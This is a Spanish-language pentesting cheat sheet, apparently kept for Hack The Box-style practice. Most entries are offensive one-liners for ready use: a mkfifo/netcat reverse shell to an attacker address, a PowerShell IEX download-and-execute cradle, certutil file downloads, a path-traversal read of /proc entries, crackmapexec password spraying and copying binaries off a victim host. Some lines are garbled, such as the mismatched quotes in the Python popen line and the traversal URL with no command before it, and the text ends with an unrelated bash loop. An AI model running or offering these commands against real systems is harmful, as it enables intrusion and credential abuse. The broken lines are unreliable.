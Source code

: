 ## Expresion regulares 
**Expresion regular para añadir texto antes de cada oracion:** ``sed -E 's/^(.*)/Texto a añadir \1/g;s/\r//'``
**Expresion regular para eliminar espacios en blanco de un texto:** `'/^\s*$/d'`
## Linux
**Reverse Shell; MKFIFO**: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 10.10.14.5 443 >/tmp/f;*`
**Reutilizar contraseña para todos los usuarios en el sistema con CME(crackmapexec)**: `-u users -p '<password>' --continue-on-success`
**Ejecutar comandos desde consola interactiva de Python3 y ver el output**:`print(os.popen(""$command")).read())
**Mandar binarios de maquina victima a maquina atacando con SSH**: `sshpass -p '$passwd' scp $user@$ip:/path/to/binary .`
**Conseguir la fecha, hora, segundo y año(linux):** `date +%F_%H:%M:%S `
**Listar PID de procesos activos:** `"http://10.10.11.201:8000/?page=../../../../proc/$i/cmdline" -o -`
**Buscar por archivos con palabra determinada:** `find -name \*config\* 2>/dev/null | xargs cat`
## Windows
**Tirar de la ruta nativa de powershell en caso de obtener acceso denegado**: `C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell` o  `C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell`
**Vaciar el contenido de un archivo con cmd**: `<cmd /c> "copy /y NUL clean.bat"`
**Descargar e intrepretar archivo powershell(invoke)**: `<powershell> IEX(New-Object Net.WebClient).downloadString('http://<ip>/<PsScript>')` 
**Descargar archivos con certutil**: `certutil.exe -f -urlcache -split http://<ip>/<file> <name>`
**Para listar drivers existentes**: `driverquery`
**Filtrar por las flags en maquinas windows**: `cmd /c dir /r /s $flag.txt`
**Convertir un archivo a b64 con certutil para su posterior decode**: `certutil.exe -encode root.exe root.exe.b64`
**Para saber la version de windows:** `reg query "hklm\software\microsfot\windows nt\currentversion" /v ProductName`
**Listar contenido oculto:** `dir -Force`
**Listar reglas de firewall:** `netsh advfirewall show currentprofile`
**Listar permisos de un archivo:** `icacls archivo`
## Grupos y los privilegios que tienen(linux)
**Privilegios:**
1. **ADM**. Permite leer logs.
i=1; for folder in $(ls -d */); do mv "$folder" "$i.$folder"; i=$((i+1)); if [ $i -gt 10 ]; then break; fi; done

